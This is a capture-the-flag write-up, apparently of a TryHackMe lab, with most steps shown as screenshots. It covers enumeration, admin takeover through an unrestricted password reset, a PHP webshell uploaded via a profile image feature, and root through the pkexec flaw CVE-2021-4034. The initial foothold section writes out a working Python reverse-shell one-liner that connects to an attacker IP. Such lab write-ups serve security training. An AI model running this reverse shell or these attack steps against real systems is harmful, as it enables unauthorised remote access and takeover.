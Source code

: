 * * *
  ### LAB
  ### PLATFORM: THM
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3451f8f0-cdf3-4707-b8c8-5ce5585cd963)


### ENUMERATION

- Rustscan's result

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cdc8bece-c865-440e-9ed9-96f987bcc450)

- Ffuf's result
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6338d69a-1020-48ed-9942-49549558e7dd)

- V2 ditectory reveals an admin page that allows users to register 

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/059f5f25-684b-4a4a-b791-481f828383ff)

- Profile.php reveals the admin username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8545b9fe-3838-48f6-90da-b63f54b69ea4)

- The password reset functionality is vulnerable becuase it allows us to reset an account's password without any restrictions e,g sending
a magic link to the email
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2759ec91-fda5-416c-8d96-6b3ec77ef82b)

- Intercept the request with burpsuite and change the username to the admin's name

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/be0a74d8-0fe2-42f7-846f-de43e010888d)

### GETTING SHELL

- The admin account allows the admin to unlock the profile image upload feature,we can abuse that feature to get a shell by uploading a php webshell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/09585a99-2045-4c27-bda2-b53fc889ff9f)

- I was able to upload a shell php,the site has no file upload restrictions

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2b3b466b-2771-4304-992e-35c7b955167d)

- After viewing the source code of `v2/profile.php` ,I discovered that the site has a special directory for storing uploaded pictures

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/57f2fb70-6694-40c2-8c59-41139d1d8d77)

- We can execute shell commands now

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63f5c7d8-31da-4e80-aef5-255eb8854377)

### INITIAL FOOTHOLD

- Shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9e0cd881-585b-419f-bef9-1e54f28965e6)

### PRIVESC WITH POLKIT AND PKEXEC 0.105.0

- POLKIT has an exploit as stated in `cve-2021-4034`.Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).The exploit works on pkexec ver 0.105

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e6c7dbdc-639d-4f27-bb88-886b98848b05)

- ROOT access

    ![z](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/45f2b139-f5cf-4a7b-bd39-6c46cde6fed9)


